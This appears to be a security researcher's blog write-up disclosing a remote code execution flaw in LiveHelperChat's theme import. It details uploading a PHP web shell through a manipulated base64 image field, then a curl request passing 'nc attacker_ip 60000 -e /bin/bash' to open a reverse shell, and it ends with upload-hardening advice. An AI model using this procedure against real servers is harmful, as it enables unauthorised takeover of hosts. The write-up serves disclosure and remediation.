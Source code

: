 ```yaml
---
layout: post
title: "LiveHelperChat - Remote Code Execution via Vulnerable Theme Upload Function"
---
```

## LiveHelperChat - Remote Code Execution via Vulnerable Theme Upload Function

# Summary:
Upon logging in, an import functionality has been identified that accepted input in a JSON format. The JSON format was analyzed and a base64 encoded PNG image input has been identified. By manipulating the image input parameters, it was possible to upload a malicious php file in order to execute arbitrary code.

# Plugin informations:
Name: Live Helper Chat
Homepage: https://livehelperchat.com/

# Proof of Concept (PoC):
Upon first inspection, there are no themes currently uploaded on the web application. The first step would be to try and upload a PHP file directly in one of the file inputs, however this does not seem to work in our case. 

In order to exploit this vulnerability, we must first create basic theme. Let’s move to the vulnerable directory.

> **/lhc_web/index.php/site_admin/abstract/new/WidgetTheme**{: style="color: red"}

We fill up the required inputs and parameters with dummy data. Then, we go back and download the theme from the Widget directory located here:

> **/lhc_web/index.php/site_admin/abstract/edit/WidgetTheme/1**{: style="color: red"}

When the file is downloaded, we open it and modify the **offline_image_data parameter** as well as the **offline_image_data_ext** parameter
&nbsp;

**Payload:** base64(Image Header + PHP Web Shell)
&nbsp;

**Offline_image_data** is replaced with the payload.
**Offline_image_data_ext** is simply set to “php”.
&nbsp;

The exploit should look something like this:
&nbsp;

```json
{
    "name": "Test",
    "name_company": "Peter Winter",
    "..[SNIP]..": "..[SNIP]..",
    "offline_image_data": "base64_payload",
    "offline_image_data_ext": "php"
}
```
&nbsp;
After the theme with the exploit is prepared it is uploaded on the web server in the following page:
16px
> **/lhc_web/index.php/site_admin/theme/import**{: style="color: red"}
&nbsp;

![import theme]({{ site.baseurl }}/assets/images/image1.png){:.container}
&nbsp;

After the upload is successful, the user must edit the imported theme at the Widget themes section. When the page is loaded, so is the php web shell. In our case, we have identified the path where the shell has been uploaded by viewing the page source and viewing the file path of the **offline_image_data** parameter:

> **/lhc_web/var/storagetheme/2018y/06/03/2/2c36ce9c8ebb012be3bcb3acb60abbc3.php**{: style="color: red"}
&nbsp;

Our webshell can execute code on the server by using “cmd” as a parameter. The user can then proceed to set up a reverse shell to their machine by using nc. We then proceed to establishing a reverse shell connection by issuing the following command through the GET method. Firstly, we start a listener on our local machine.
&nbsp;

{% highlight bash %}
> $ nc -lnvp 60000
{% endhighlight %}
&nbsp;

Then, we proceed to send a GET request to the webserver by leveraging our PHP web shell.
&nbsp;

{% highlight bash %}
> $ curl -X GET \ 
http://victim_ip/lhc_web/var/storagetheme/2018y/06/03/2/2c36ce9c8ebb012be3bcb3acb60abbc3.php?cmd=nc+attacker_ip+60000+-e+/bin/bash
{% endhighlight %}
&nbsp;

If the connection is successful, we should get the following message on our listener. Upon issuing the id command, we find out that we are logged in as the www-data user.
&nbsp;

{% highlight bash %}
> $  nc -lnvp 60000
listening on [any] 60000 ...
connect to [attacker_ip] from (UNKNOWN) [vitim_ip] 40248
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
{% endhighlight %}
&nbsp;

# Some of the recommendations for remediating this vulnerability are listed below:

- Restrict file types accepted for upload (check the file extension and only allow certain files to be uploaded.)
- Use a whitelist approach instead of a blacklist. 
- Check for double extensions such as .php.png. 
- Check for files without a filename like .htaccess (on ASP.NET, check for configuration files like web.config). 
- Change the permissions on the upload folder so the files within it are not executable. If possible, rename the files that are uploaded.
- Check OWASP page for unrestricted upload for the rest of best-practice solutions.


# Vulnerability found by:
Me and [0xcela](https://twitter.com/0xcela)
